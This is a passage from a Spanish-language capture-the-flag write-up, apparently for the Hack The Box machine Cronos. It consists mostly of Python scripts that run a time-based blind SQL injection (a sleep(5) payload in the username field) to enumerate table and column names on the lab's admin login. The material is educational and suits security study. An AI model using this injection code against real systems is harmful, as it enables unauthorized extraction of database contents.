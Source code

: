 ```python
                time_start = time.time()
                r = requests.post(login_url, data=post_data)
                time_end = time.time()

                if time_end - time_start > 5:
                    table_name += character
                    p2.status(table_name)
                    break
            break
        table_name += " - "

if __name__ == '__main__':

    makeRequest()
```

Ahora que sabemos que hay una tabla `users`, miramos las columnas.

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import signal
import pdb
import sys
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

login_url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdef'

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Columns")

    column_name = ""

    for column in range(0,4):
        for position in range(1, 10):
            for character in s:
                p1.status("Probando con el caracter %c en la posicion %d de la columna numero %d de la tabla users " % (character, position, column))
                post_data = {
                    'username': "admin' and if(substr((select column_name from information_schema.columns where table_schema='admin' and table_name='users' limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (column, position, character),
                    'password': 'admin'
                }

                time_start = time.time()
                r = requests.post(login_url, data=post_data)
                time_end = time.time()
```